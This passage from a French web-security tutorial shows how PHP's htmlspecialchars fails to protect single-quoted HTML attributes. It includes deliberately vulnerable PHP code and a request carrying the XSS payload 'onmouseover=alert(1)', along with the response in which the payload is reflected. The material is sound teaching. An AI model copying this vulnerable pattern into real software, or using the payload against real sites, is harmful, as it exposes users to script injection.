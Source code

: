 Protégeant ainsi l'application :&#x20;

![](<../../../.gitbook/assets/image (27).png>)

#### Cas n°2

Cet exemple est sensiblement le même, mais l'ordre d'utilisation des caractères `"` et `'` au sein du code PHP a été ici modifié :&#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><?php  echo "<input type='text' name='safeHTML' value='" . htmlspecialchars($_GET["param"]) . "'>"; ?></p>
  </body>
</html>
```

```http
GET /minipoc/htmlspecialchars/?param=whatever%27%20onmouseover=%27alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><input type='text' name='safeHTML' value='whatever' onmouseover='alert(1)'></p>
  </body>
</html>
```

Cette fois, l'application reste vulnérable :&#x20;
